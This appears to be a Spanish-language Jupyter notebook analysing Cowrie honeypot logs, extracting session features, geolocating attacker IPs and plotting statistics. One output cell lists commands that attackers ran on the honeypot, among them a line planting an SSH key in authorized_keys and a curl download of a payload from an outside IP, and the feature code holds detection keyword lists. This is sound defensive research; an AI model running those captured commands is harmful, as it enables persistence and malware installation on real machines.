In [17]:
import pandas as pd
import os

data = []
base_path = os.path.dirname(os.getcwd())
log_dir = os.path.join(base_path, "log")

file_path = os.path.join(log_dir, "cowrie_all.json")
df = pd.read_json(file_path, lines=True)

print(df.tail(50))

                           eventid           src_ip  src_port         dst_ip  \
11994       cowrie.session.connect  172.236.119.165   61082.0  172.31.26.155   
11995        cowrie.client.version  172.236.119.165       NaN            NaN   
11996        cowrie.session.closed  172.236.119.165       NaN            NaN   
11997       cowrie.session.connect    70.166.167.49   44940.0  172.31.26.155   
11998        cowrie.session.closed    70.166.167.49       NaN            NaN   
11999       cowrie.session.connect      49.207.9.39   53058.0  172.31.26.155   
12000        cowrie.client.version      49.207.9.39       NaN            NaN   
12001            cowrie.client.kex      49.207.9.39       NaN            NaN   
12002         cowrie.login.success      49.207.9.39       NaN            NaN   
12003  cowrie.direct-tcpip.request      49.207.9.39   21298.0   77.88.21.158   
12004        cowrie.session.closed      49.207.9.39       NaN            NaN   
12005       cowrie.session.connect  183.

In [18]:
sessions = []
print(df.columns)
grouped = df.groupby("session") #Agrupas el df por sesión
for session_id, group in grouped:
    #Diccionario de esta sesion
    session_data = {}

    #Guarda ID de la sesión
    session_data["session"] = session_id

    #LO BÁSICO
    #Protocolo
    session_data["protocol"] = group["protocol"].dropna().iloc[0] if not group["protocol"].dropna().empty else None

    # IP atacante
    session_data["src_ip"] = group["src_ip"].dropna().iloc[0] if not group["src_ip"].dropna().empty else None

    # Puerto origen 
    session_data["src_port"] = group["src_port"].dropna().iloc[0] if not group["src_port"].dropna().empty else None

    session_data["username"] = group["username"].dropna().iloc[0] if not group["username"].dropna().empty else None
    session_data["password"] = group["password"].dropna().iloc[0] if not group["password"].dropna().empty else None

    #SESIÓN
    # Duración segun evento cierre
    duration = group[group["eventid"] == "cowrie.session.closed"]["duration"]
    session_data["duration"] = float(duration.iloc[0]) if not duration.empty else 0
    
    login_success = int((group["eventid"] == "cowrie.login.success").any())
    login_failed = (group["eventid"] == "cowrie.login.failed").sum()

    session_data["login_success"] = login_success
    session_data["login_attempts"] = login_failed
    
    #Calcular la proporción de intentos de login fallidos respecto al total
    session_data["auth_failure_ratio"] = (
    session_data["login_attempts"] /
    (session_data["login_attempts"] + session_data["login_success"] + 1)
    )

    #COMANDOS
    # Nº comandos ejecutados por el atacante 
    session_data["num_commands"] = (group["eventid"] == "cowrie.command.input").sum()

    # Descarga de archivos en la sesión (1 = sí, 0 = no)
    session_data["file_download"] = int((group["eventid"] == "cowrie.session.file_download").any())

    #Comandos atacante
    commands = group[group["eventid"] == "cowrie.command.input"]["input"].dropna().tolist()
    session_data["commands"] = commands

    if commands:
        session_data["recon"] = int(any(x in cmd.lower() for cmd in commands for x in ["uname","whoami","id","ifconfig","pwd"]))
        session_data["download"] = int(any(x in cmd.lower() for cmd in commands for x in ["wget","curl","tftp"]))
        session_data["chmod"] = int(any("chmod" in cmd.lower() for cmd in commands))
        session_data["execution"] = int(any(x in cmd.lower() for cmd in commands for x in ["./","sh ","bash "]))
        session_data["persistence"] = int(any(x in cmd.lower() for cmd in commands for x in [".ssh","authorized_keys"]))

        session_data["unique_commands"] = len(set(commands))
        session_data["avg_command_length"] = sum(map(len, commands)) / len(commands)

    else:
        session_data["recon"] = 0
        session_data["download"] = 0
        session_data["chmod"] = 0
        session_data["execution"] = 0
        session_data["persistence"] = 0

        session_data["unique_commands"] = 0
        session_data["avg_command_length"] = 0
        
    #VELOCIDAD
    # Velocidad del ataque, alto->bot, bajo -> humano
    session_data["commands_per_second"] = (
        session_data["num_commands"] / session_data["duration"]
        if session_data["duration"] > 0 else 0
    )

    #COMPORTAMIENTO DE AUTENTICACIÓN SIN COMANDOS
    #Intensidad intentando adivinar
    session_data["credential_guessing_intensity"] = int(login_failed >= 5)

    #Probable que sea bot
    session_data["bot_likelihood_auth"] = int(
        login_failed >= 3 and session_data["duration"] < 5
    )

    #Puntuación de serveridad de autenticación
    session_data["auth_severity_score"] = (
        login_failed * 2 +
        login_success * 5 +
        session_data["duration"] * 0.1
    )

    # Tipo de sesión sin comandos
    if session_data["num_commands"] == 0:
        #Muchos intentos fallidos → posible ataque de fuerza bruta.
        if login_failed >= 5:
            session_data["session_stage"] = "bruteforce"
        #Login exitoso, pero no se ejecutaron comandos → alguien entró pero no hizo nada.
        elif login_success:
            session_data["session_stage"] = "login_success_no_shell"
        #Sesión larga sin comandos → posible escaneo lento
        elif session_data["duration"] > 60:
            session_data["session_stage"] = "slow_probe"
        #Actividad muy básica → probablemente un escaneo automático.
        else:
            session_data["session_stage"] = "scan"
     #Interracción con el sistema   
    else:
        session_data["session_stage"] = "interactive"

    #Clasificación ataques
    attack_types = []

    if session_data["recon"]:
        attack_types.append("reconnaissance")

    if session_data["download"]:
        attack_types.append("malware_download")

    if session_data["execution"]:
        attack_types.append("execution")

    if session_data["persistence"]:
        attack_types.append("persistence")

    if session_data["chmod"]:
        attack_types.append("privilege_change")

    if login_failed > 5:
        attack_types.append("bruteforce")

    if session_data["file_download"]:
        attack_types.append("file_activity")

    if session_data["commands_per_second"] > 2:
        attack_types.append("bot")

    if session_data["unique_commands"] > 5:
        attack_types.append("interactive_attack")

    #Si no hay comandos, clasificación ataques
    if session_data["num_commands"] == 0:

        if login_failed >= 5:
            attack_types.append("auth_bruteforce")

        elif login_success:
            attack_types.append("auth_success_no_action")

        elif session_data["auth_severity_score"] > 10:
            attack_types.append("high_auth_pressure")

        else:
            attack_types.append("scan_or_noise")

    session_data["attack_type"] = attack_types
    #Agregar el diccionario
    sessions.append(session_data)
    
# Crea dataframe a partir de todos los diccionarios
dataset = pd.DataFrame(sessions)
print(dataset.head(50))
dataset.to_csv("../log/dataset.csv", index=False)

Index(['eventid', 'src_ip', 'src_port', 'dst_ip', 'dst_port', 'session',
       'protocol', 'message', 'sensor', 'uuid', 'timestamp', 'version',
       'hassh', 'hasshAlgorithms', 'kexAlgs', 'keyAlgs', 'encCS', 'macCS',
       'compCS', 'langCS', 'duration', 'username', 'password', 'arch', 'input',
       'ttylog', 'size', 'shasum', 'duplicate', 'outfile', 'destfile', 'width',
       'height', 'name', 'value', 'command', 'option_name', 'option_byte'],
      dtype='str')
         session protocol           src_ip  src_port        username  \
0   0033683edcd9      ssh      65.20.175.6   35567.0          centos   
1   00499f26b97c      ssh   199.116.117.33   60640.0             NaN   
2   007f9cb9dc1c      ssh   122.187.147.13   53256.0          debian   
3   00813fdd7161      ssh     62.20.205.17   35666.0         unknown   
4   00ae7ffbb20a      ssh    117.216.33.31   40544.0           admin   
5   00dd83768373      ssh  220.246.194.124   47791.0           admin   
6   00df489943a2     

In [19]:
# Cuenta de cuantas veces nos ha atacado cada IP.
group_by_ip = dataset["src_ip"].value_counts()
print(group_by_ip)

src_ip
177.141.8.174      49
101.126.41.73      35
45.194.37.246      28
147.139.215.38     24
102.210.149.130    21
                   ..
1.235.192.131       1
183.171.61.178      1
121.189.226.81      1
121.202.138.181     1
162.216.149.18      1
Name: count, Length: 1339, dtype: int64


In [20]:
import geoip2.database

# Localizar IP por países
# Uso de la base de datos GeoLite2-City
# Página oficial de la base de datos https://www.maxmind.com/
reader = geoip2.database.Reader('../db/GeoLite2-City.mmdb')

paises_ataques = {}
for ip, numero_de_ataques in  group_by_ip.items():
    if ip == "127.0.0.1":
        continue
    response = reader.city(ip)
    
    if response.country.name not in paises_ataques.keys():
        paises_ataques[response.country.name] = numero_de_ataques
    else:
        paises_ataques[response.country.name] += numero_de_ataques

reader.close()

for pais, num_ataques in paises_ataques.items():
    print("Numero de ataques de:",pais , ": " , num_ataques)

Numero de ataques de: Brazil :  121
Numero de ataques de: China :  484
Numero de ataques de: Seychelles :  29
Numero de ataques de: Indonesia :  64
Numero de ataques de: South Africa :  23
Numero de ataques de: India :  201
Numero de ataques de: United States :  569
Numero de ataques de: Bulgaria :  17
Numero de ataques de: South Korea :  126
Numero de ataques de: United Arab Emirates :  11
Numero de ataques de: Peru :  8
Numero de ataques de: Sweden :  78
Numero de ataques de: Bangladesh :  20
Numero de ataques de: Mozambique :  7
Numero de ataques de: Russia :  111
Numero de ataques de: Spain :  21
Numero de ataques de: Netherlands :  20
Numero de ataques de: Germany :  21
Numero de ataques de: Thailand :  11
Numero de ataques de: Taiwan :  45
Numero de ataques de: Hong Kong :  44
Numero de ataques de: Malaysia :  120
Numero de ataques de: Colombia :  15
Numero de ataques de: Norway :  6
Numero de ataques de: Congo Republic :  4
Numero de ataques de: Japan :  22
Numero de ataques de:

In [21]:
# Listamos todos los comandos ejecutados.
dataset_filtrado = dataset[dataset["commands"].str.len() > 0]

set_comandos = set([x for xs in dataset_filtrado["commands"].tolist() for x in xs])
for idx, comando in enumerate(set_comandos):
    print(idx, " ", comando)
    

0   
1   lscpu | grep Model
2   head -c 3450672 > /tmp/EwQUu7JpUW#0000
3   echo 1 > /dev/null && cat /bin/echo
4   top
5   echo "cat /proc/1/mounts && ls /proc/1/; curl2; ps aux; ps" | sh
6   rm -rf /tmp/secure.sh; rm -rf /tmp/auth.sh; pkill -9 secure.sh; pkill -9 auth.sh; echo > /etc/hosts.deny; pkill -9 sleep;
7   uname
8   exit
9   cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~
10   uname -a
11   crontab -l
12   uname -s -m
13   head -c 8308096 > /tmp/ptK3WDjBWY
14   nohup $SHELL -c "curl http://49.75.185.201:60107/linux -o /tmp/Lbh494bXRa; if [ ! -f /

In [22]:
# Agrupamos las conexiones en base a las duraciones que han tenido.
# Si la duración ha durado menos de 20 segundos, lo consideramos corto.
# Si la duración ha durado entre 20 y 80 segundos, lo consideramos medio.
# Si la duración ha durado más de 80 segundos, lo consideramos largo.

bajo = 0
med = 0
alto = 0
for duracion in dataset["duration"]:
    if duracion < 20:
        bajo += 1
    if 20 <= duracion < 80:
        med += 1
    if duracion >= 80:
        alto += 1

print("Conexiones de baja duración: ", bajo)
print("Conexiones de media duración: ", med)
print("Conexiones de alta duración: ", alto)

Conexiones de baja duración:  2108
Conexiones de media duración:  95
Conexiones de alta duración:  419




Sesiones telnet:  108
Sesiones ssh:  2514


In [23]:
# Protocolos usados para la conexión al servidor.

import matplotlib.pyplot as plt

telnet = (dataset["protocol"] == "telnet").sum()
ssh = (dataset["protocol"] == "ssh").sum()

labels = ["telnet", "ssh"]
values = [telnet, ssh]

plt.pie(values, labels=labels, autopct="%1.1f%%", startangle=90)
plt.title("Descargas de archivos en sesiones")

plt.show()

print("Sesiones telnet: ", telnet)
print("Sesiones ssh: ", ssh)



username
root              316
admin             180
test              127
support           118
user              109
config             84
centos             82
blank              78
nobody             77
debian             72
ubnt               71
unknown            62
guest              48
default            42
operator           42
supervisor         41
GET / HTTP/1.1     15
345gs5662d34       13
Admin              11
oracle              8
Name: count, dtype: int64


In [24]:
# Representación de la frecuencia de nombres de usuarios utilizados por los intrusos.

usernames = dataset["username"].dropna()
top_users = usernames.value_counts().head(20)  # Top 20

top_users.sort_values().plot(kind="barh")

plt.title("Top usuarios atacantes")
plt.xlabel("Frecuencia")
plt.ylabel("Username")

plt.show()

print(top_users)

ValueError: 'labels' must be of length 'x', not 2



In [ ]:
# Uso del campo num_commands para identificar sesiones con comandos.

import matplotlib.pyplot as plt

sin_comandos = (dataset["num_commands"] == 0).sum()
con_comandos = (dataset["num_commands"] > 0).sum()


labels = ["Sin comandos", "Con comandos"]
values = [sin_comandos, con_comandos]

plt.pie(values, labels=labels, autopct="%1.1f%%", startangle=90)
plt.title("Frecuencia de comandos")

plt.show()

print("Sesiones sin comandos: ", sin_comandos)
print("Sesiones con comandos: ", con_comandos)



Sesiones sin cambio:  2607
Sesiones con cambio:  15


In [ ]:
# El comando "chmod" se usa para cambiar permisos en archivos y ficheros.
# Mediante este comando el intruso puede atribuirse permisos que en realidad
# no tiene.
# Contamos la cantidad de sesiones en la que se han cambiado los permisos.

import matplotlib.pyplot as plt

sin_cambio = (dataset["chmod"] == 0).sum()
con_cambio = (dataset["chmod"] == 1).sum()

labels = ["Sin cambio", "Con cambio"]
values = [sin_cambio, con_cambio]

plt.pie(values, labels=labels, autopct="%1.1f%%", startangle=90)
plt.title("Descargas de archivos en sesiones")

plt.show()

print("Sesiones sin cambio: ", sin_cambio)
print("Sesiones con cambio: ", con_cambio)



Sesiones sin descarga:  2607
Sesiones con descarga:  15


In [ ]:
# Visualizar si se han intentado descargar archivos

import matplotlib.pyplot as plt

sin_descarga = (dataset["file_download"] == 0).sum()
con_descarga = (dataset["file_download"] == 1).sum()

labels = ["Sin descarga", "Con descarga"]
values = [sin_descarga, con_descarga]

plt.pie(values, labels=labels, autopct="%1.1f%%", startangle=90)
plt.title("Descargas de archivos en sesiones")

plt.show()

print("Sesiones sin descarga: ", sin_descarga)
print("Sesiones con descarga: ", con_descarga)



In [ ]:
import matplotlib.pyplot as plt

# Representación gráfica de la distribución del tiempo.
plt.hist(dataset["duration"][dataset["duration"]>0], bins=30, color='skyblue', edgecolor='black')
plt.show()



In [ ]:
plt.hist(dataset["duration"][dataset["duration"]< 60], bins=30, color='skyblue', edgecolor='black')
plt.show()

# Representación gráfica de la distribución del tiempo en conexiones menores a 60 segundos.



In [ ]:
import numpy as np
from sklearn.decomposition import PCA
import matplotlib.pyplot as plt
from sklearn.preprocessing import StandardScaler
scaler = StandardScaler()

data_scaled = scaler.fit(dataset[["duration","login_attempts","num_commands","file_download","recon","download","chmod","execution","persistence","commands_per_second"]])
X = np.array(dataset[["duration","login_attempts","num_commands","file_download","recon","download","chmod","execution","persistence","commands_per_second"]])
pca = PCA(n_components=4)
pca_results = pca.fit_transform(X)
fig = plt.figure()
ax = plt.axes(projection='3d')
ax.scatter(pca_results[:,0],pca_results[:,1],pca_results[:,2], c=pca_results[:,3])

plt.show()
